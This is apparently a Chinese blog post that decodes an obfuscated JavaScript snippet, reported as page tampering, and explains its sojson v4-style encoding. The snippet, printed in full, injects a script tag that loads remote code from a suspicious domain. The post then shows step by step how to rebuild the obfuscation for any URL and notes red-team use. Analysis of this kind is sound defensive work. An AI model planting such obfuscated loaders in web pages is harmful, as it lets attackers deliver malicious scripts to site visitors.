




## 背景：
近期同事同步了一段js说客户收到相关内容通报需要确认，如果是页面篡改理论上一定是一段混淆的代码，下面就针对此代码分析和解密加密分析。


<!--more-->


```js
['e491q'][" filter"]["constructor"](((['e491q']+[])[" constructor"]['fromCharCode']['apply'](null,"100O111Z99q117F109p101j110V116Q46F119J114B105G116W101C108m110b40k34e60B115F99e114x105M112H116J32S115i114p99j61L92Q39H104c116D116R112Z58c47c47j115m102w46k98v97y99j107v109R111i111p110F46W120n121c122h47G106t115Y47r106g113P117Q101p114u121R46C109s105h110w46b112E104J112D92N39l62T60W47P115Z99Y114O105p112k116D62d34l41L59"['split'](/[a-zA-Z]{1,}/))))('e491q')
```

根据我豪哥提示通过constructor、fromCharCode、apply可以在网上搜索到一段关于sojsonv4加密。看到了有关sojsonv4解密相关文章https://www.cnblogs.com/liulihaocai/p/decode_sojsonv4.html ，根据提示删除非标准格式sojsonv4，然后放到console中可以直接解。


## 解密：
将e491q替换为sojson.v4
```
(((['sojson.v4']+[])["constructor"]['fromCharCode']['apply'](null,"100O111Z99q117F109p101j110V116Q46F119J114B105G116W101C108m110b40k34e60B115F99e114x105M112H116J32S115i114p99j61L92Q39H104c116D116R112Z58c47c47j115m102w46k98v97y99j107v109R111i111p110F46W120n121c122h47G106t115Y47r106g113P117Q101p114u121R46C109s105h110w46b112E104J112D92N39l62T60W47P115Z99Y114O105p112k116D62d34l41L59"['split'](/[a-zA-Z]{1,}/))))
```
放在浏览器console中直接输出结果


```
document.writeln("<script src=\'http[:]//sf[.]backmoon[.]xyz/js/jquery.min.php\'></script>");
```

## 分析：

上面的代码个人理解实际相当于下面代码
```
''.constructor.fromCharCode.apply(null,"100O111Z99q117F109p101j110V116Q46F119J114B105G116W101C108m110b40k34e60B115F99e114x105M112H116J32S115i114p99j61L92Q39H104c116D116R112Z58c47c47j115m102w46k98v97y99j107v109R111i111p110F46W120n121c122h47G106t115Y47r106g113P117Q101p114u121R46C109s105h110w46b112E104J112D92N39l62T60W47P115Z99Y114O105p112k116D62d34l41L59".split(/[a-zA-Z]{1,}/))
```
进一步实际关键代码，将字符数组进行混淆


```
"100O111Z99q117F109p101j110V116Q46F119J114B105G116W101C108m110b40k34e60B115F99e114x105M112H116J32S115i114p99j61L92Q39H104c116D116R112Z58c47c47j115m102w46k98v97y99j107v109R111i111p110F46W120n121c122h47G106t115Y47r106g113P117Q101p114u121R46C109s105h110w46b112E104J112D92N39l62T60W47P115Z99Y114O105p112k116D62d34l41L59".split(/[a-zA-Z]{1,}/)
```

```
["100", "111", "99", "117", "109", "101", "110", "116", "46", "119", "114", "105", "116", "101", "108", "110", "40", "34", "60", "115", "99", "114", "105", "112", "116", "32", "115", "114", "99", "61", "92", "39", "104", "116", "116", "112", "58", "47", "47", "115", "102", "46", "98", "97", "99", "107", "109", "111", "111", "110", "46", "120", "121", "122", "47", "106", "115", "47", "106", "113", "117", "101", "114", "121", "46", "109", "105", "110", "46", "112", "104", "112", "92", "39", "62", "60", "47", "115", "99", "114", "105", "112", "116", "62", "34", "41", "59"]
```

也就是：
```
String.fromCharCode("100", "111", "99", "117", "109", "101", "110", "116", "46", "119", "114", "105", "116", "101", "108", "110", "40", "34", "60", "115", "99", "114", "105", "112", "116", "32", "115", "114", "99", "61", "92", "39", "104", "116", "116", "112", "58", "47", "47", "115", "102", "46", "98", "97", "99", "107", "109", "111", "111", "110", "46", "120", "121", "122", "47", "106", "115", "47", "106", "113", "117", "101", "114", "121", "46", "109", "105", "110", "46", "112", "104", "112", "92", "39", "62", "60", "47", "115", "99", "114", "105", "112", "116", "62", "34", "41", "59")
```



## 还原加密过程：

这里修改篡改内容为百度，实际红队利用也可以改造自己的js
```
document.writeln("<script src=\'http://baidu.com\'></script>");
```
[to charcode 10进制](https://gchq.github.io/CyberChef/#recipe=To_Charcode('Comma',10)Find_/_Replace(%7B'option':'Regex','string':','%7D,'A',true,true,true,true/disabled)&input=ZG9jdW1lbnQud3JpdGVsbigiPHNjcmlwdCBzcmM9XCdodHRwOi8vYmFpZHUuY29tXCc%2BPC9zY3JpcHQ%2BIik7)

```
100,111,99,117,109,101,110,116,46,119,114,105,116,101,108,110,40,34,60,115,99,114,105,112,116,32,115,114,99,61,92,39,104,116,116,112,58,47,47,98,97,105,100,117,46,99,111,109,92,39,62,60,47,115,99,114,105,112,116,62,34,41,59
```

替换所有","为随机[a-zA-Z]，这里直接全部替换A了
```
100A111A99A117A109A101A110A116A46A119A114A105A116A101A108A110A40A34A60A115A99A114A105A112A116A32A115A114A99A61A92A39A104A116A116A112A58A47A47A98A97A105A100A117A46A99A111A109A92A39A62A60A47A115A99A114A105A112A116A62A34A41A59
```
再利用split拆分转字符数组
```
"100A111A99A117A109A101A110A116A46A119A114A105A116A101A108A110A40A34A60A115A99A114A105A112A116A32A115A114A99A61A92A39A104A116A116A112A58A47A47A98A97A105A100A117A46A99A111A109A92A39A62A60A47A115A99A114A105A112A116A62A34A41A59".split(/[a-zA-Z]{1,}/)
```
为了能够fromcharcode读取，传入参数需要调整，使用apply传入数组型参数，使用constructor对数组函数引用
```
''.constructor.fromCharCode.apply(null,"100A111A99A117A109A101A110A116A46A119A114A105A116A101A108A110A40A34A60A115A99A114A105A112A116A32A115A114A99A61A92A39A104A116A116A112A58A47A47A98A97A105A100A117A46A99A111A109A92A39A62A60A47A115A99A114A105A112A116A62A34A41A59".split(/[a-zA-Z]{1,}/))
```
通过混淆变形即生成jsonv4代码
```
(((['xxx随机']+[])["constructor"]['fromCharCode']['apply'](null,"100A111A99A117A109A101A110A116A46A119A114A105A116A101A108A110A40A34A60A115A99A114A105A112A116A32A115A114A99A61A92A39A104A116A116A112A58A47A47A98A97A105A100A117A46A99A111A109A92A39A62A60A47A115A99A114A105A112A116A62A34A41A59".split(/[a-zA-Z]{1,}/))))
```


